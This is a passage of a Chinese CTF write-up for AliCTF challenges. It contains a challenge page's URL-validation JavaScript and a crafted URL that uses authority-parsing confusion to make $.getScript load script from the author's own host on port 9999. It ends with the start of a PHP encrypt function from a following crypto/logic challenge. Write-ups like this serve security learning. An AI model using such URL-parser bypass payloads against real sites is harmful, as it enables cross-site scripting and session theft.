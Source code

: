 ```
      if(this.password && this.password.indexOf('\\') > -1){
        this.illegal = true;
        return;
      }
      if(this.authority != 'notexist.example.com'){
        this.illegal = true;
        return;
      }
    }
    URL.prototype.get = function(){
      if(this.illegal){
        return 'default.js';
      }else{
        return this.url;
      }
    }
  </script>
</head>
<body>
  <script type="text/javascript">
    var url = new URL(location.search.substr(1));
    url.validate()
    url = url.get()
    $.getScript(url)
  </script>
</body>
</html>

```

读 JavaScript 代码，构造地址：

```
http://ef4c3e7556641f00.alictf.com/xss.php?http://notexist.example.com:@notexist.example.com:@ricter.me:9999/  

```

加载的 JavaScript 脚本和 XSS100 相同。

0x10 简单业务逻辑2
=====

```
<!--
  function encrypt($plain) {
    $plain = md5($plain);
    $V = md5('??????'); 
    //var_dump($V);
    $rnd = md5(substr(microtime(),11));

    //var_dump(substr(microtime(),11)+mt_rand(0,35));
    $cipher = '';
    for($i = 0; $i < strlen($plain); $i++) {
        $cipher .= ($plain[$i] ^ $rnd[$i]);
    }
    $cipher .= $rnd;
    $V .= strrev($V);
    //var_dump($cipher);
    for($i = 0; $i < strlen($V); $i++) {
        $cipher[$i] = ($cipher[$i] ^ $V[$i]);
    }
    //var_dump($cipher);
    //var_dump($V);
    return str_replace('=', '', base64_encode($cipher));
}
```